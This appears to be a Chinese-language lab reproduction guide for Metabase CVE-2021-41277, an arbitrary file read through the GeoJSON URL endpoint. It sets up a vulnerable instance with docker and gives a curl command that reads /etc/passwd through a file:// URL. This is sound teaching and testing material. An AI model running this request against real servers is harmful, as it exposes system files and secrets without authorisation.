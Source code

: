# Metabase任意文件读取漏洞（CVE-2021-41277）

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- <https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr>
- <https://github.com/tahtaciburak/CVE-2021-41277>

## 环境搭建

执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![](1.png)

## 漏洞复现

只需要使用CURL即可简单地复现这个漏洞：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

可见，`/etc/passwd`已经被成功读取：

![](2.png)
